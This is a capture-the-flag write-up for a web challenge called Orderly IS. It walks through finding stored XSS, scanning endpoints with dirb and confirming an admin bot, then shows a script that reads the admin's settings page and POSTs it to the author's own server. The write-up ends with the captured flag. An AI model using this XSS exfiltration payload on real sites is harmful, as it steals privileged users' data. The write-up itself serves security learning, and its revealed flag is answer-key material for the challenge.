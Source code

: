 # Orderly IS

Hi, packet inspector,

do you want to order something? Use our Orderly information system, it is intuitive, fast, reliable and secure! At least
that's what we claim in the TV ad. In last few hours it began to act weirdly, but its administrator is on vacation away
from civilization (and connectivity).

You will have to break into the [Orderly information system](http://orderly.mysterious-delivery.tcc:23000/) and check
its configuration.

May the Packet be with you!

---

I enjoyed this challenge. This is the web

![](portal.png)

We can post any data and the data is rendered back. I tried a few payload and
discovered [XSS vulnerability](https://portswigger.net/web-security/cross-site-scripting).

PoC:

```
<script>alert(1)</script>
```

In the meantime, I ran `nmap` and `dirb`. The latter discovered an interesting endpoint:

```
$ dirb http://orderly.mysterious-delivery.tcc:23000/

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Tue Oct 25 20:21:24 2022
URL_BASE: http://orderly.mysterious-delivery.tcc:23000/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://orderly.mysterious-delivery.tcc:23000/ ----
==> DIRECTORY: http://orderly.mysterious-delivery.tcc:23000/javascript/
+ http://orderly.mysterious-delivery.tcc:23000/login (CODE:200|SIZE:1846)
+ http://orderly.mysterious-delivery.tcc:23000/logout (CODE:302|SIZE:199)
+ http://orderly.mysterious-delivery.tcc:23000/server-status (CODE:403|SIZE:299)
+ http://orderly.mysterious-delivery.tcc:23000/settings (CODE:302|SIZE:199)

---- Entering directory: http://orderly.mysterious-delivery.tcc:23000/javascript/ ----
==> DIRECTORY: http://orderly.mysterious-delivery.tcc:23000/javascript/jquery/

---- Entering directory: http://orderly.mysterious-delivery.tcc:23000/javascript/jquery/ ----
+ http://orderly.mysterious-delivery.tcc:23000/javascript/jquery/jquery (CODE:200|SIZE:287600)
```

This is interesting: `+ http://orderly.mysterious-delivery.tcc:23000/settings (CODE:302|SIZE:199)`

I have already seen a bit similar challenge so the next logical step was to verify that XSS payload is triggered
by the "admin". Likely, after solving [XML Prettifier](../02-xml-prettifier/README.md) I already knew I can use
my computer to hosts payloads.

The second PoC (don't forget about the firewall):

1. Get your VPN IP (`10.200.0.11`)
2. Configure/disable firewall
3. Run HTTP server on `10.200.0.11` (I'm using Python `http.server`)

Payload:

```
<img src="http://10.200.0.11:8000/test"/>
```

HTTP server log:

```
::ffff:10.200.0.11 - - [25/Oct/2022 20:27:05] code 404, message File not found
::ffff:10.200.0.11 - - [25/Oct/2022 20:27:05] "GET /test HTTP/1.1" 404 -
::ffff:10.99.0.5 - - [25/Oct/2022 20:27:05] code 404, message File not found
::ffff:10.99.0.5 - - [25/Oct/2022 20:27:05] "GET /test HTTP/1.1" 404 -
```

Bingo, there's hit from `10.99.0.5`!

Now, let's make a real exploit. My first idea was to steel the session cookie and use it to impersonate the admin but
the cookie is `httpOnly` so it wouldn't work.

The idea is simple. First HTTP request to read `settings`, second HTTP request to post the response of the first
request back to my localhost:

Also, don't forget about [CORS](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS). To make it work, I added
the following handler for `OPTIONS` method:

```python
def do_OPTIONS(self):
    self.send_response(HTTPStatus.OK)
    self.send_header("Access-Control-Allow-Origin", "*")
    self.send_header("Access-Control-Allow-Headers", "*")
    self.end_headers()
```

Those HTTP headers make CORS possible.

Run my customized [HTTP server](../../../../src/main/python/catch22/OrderlyIS/http-server.py) and send the exploit:

```html

<script>
    var xhr = new XMLHttpRequest();
    xhr.open("GET", "/settings", false);
    xhr.send(null);
    var response = xhr.responseText;

    var xhr = new XMLHttpRequest();
    xhr.open("POST", "http://10.200.0.11:8000/", false);
    xhr.send(JSON.stringify({
        response
    }));
</script>
```

The POST request is indeed logged:

```
POST /

Headers:
Host: 10.200.0.11:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.99.0.131:23000/
Content-Type: text/plain;charset=UTF-8
Content-Length: 1639
Origin: http://10.99.0.131:23000
Connection: keep-alive

Body:
{"response":"\n\n<!doctype html>\n<html lang=\"en\">\n  \n<head>\n\t<meta charset=\"utf-8\">\n\t<meta name=\"viewport\" content=\"width=device-width, initial-scale=1, shrink-to-fit=no\">\n\t<link rel=\"stylesheet\" href=\"/static/bootstrap.min.css\">\n\t<title>Settings (adminuser)</title>\n\n\t<link rel=\"stylesheet\" href=\"/static/style.css\">\n</head>\n\n<body>\n\t<nav class=\"navbar navbar-expand navbar-dark bg-dark fixed-top py-0\">\n\t\t<div class=\"container\">\n\t\t\t<a class=\"navbar-brand\" href=\"/\">Orderly</a>\n\t\t\t<button class=\"navbar-toggler\" type=\"button\" data-toggle=\"collapse\" data-target=\"#navbarResponsive\" aria-controls=\"navbarResponsive\" aria-expanded=\"false\" aria-label=\"Toggle navigation\"><span class=\"navbar-toggler-icon\"></span></button>\n\t\t\t<div class=\"collapse navbar-collapse\" id=\"navbarResponsive\">\n\t\t\t\t<ul class=\"navbar-nav ml-auto\">\n\t\t\t\t\t<li class=\"nav-item\"><a class=\"nav-link\" href=\"/order/add\">Add</a></li>\n\t\t\t\t\t<!-- begin only admins -->\n\t\t\t\t\n\t\t\t\t\t<!-- end only admins -->\n\t\t\t\t\n\t\t\t\t\t<li class=\"nav-item\"><a class=\"nav-link\" href=\"/order/process\">Process</a></li>\n\t\t\t\t\t<li class=\"nav-item\"><a class=\"nav-link\" href=\"/logout\">Logout</a></li>\n\t\t\t\t\n\t\t\t\t</ul>\n\t\t\t</div>\n\t\t</div>\n\t</nav>\n\n        <div class=\"container\">\n\t\t<div>\n\t\t\n\t\t\n\t\t\n\t\t</div>\n\n\t\t\n<h1>Settings</h1>\n<span id=\"flag\">FLAG{9QVE-0miw-qnwm-ER9m}\n</span>\n\n        </div>\n\n\t<script src=\"/static/jquery.min.js\"></script>\n\t<script src=\"/static/bootstrap.min.js\"></script>\n</body>\n\n</html>"}

10.99.0.3 - - [25/Oct/2022 20:42:34] "POST / HTTP/1.1" 200 -

```

Here is the cut [Settings page](settings.html).

And the flag `FLAG{9QVE-0miw-qnwm-ER9m}`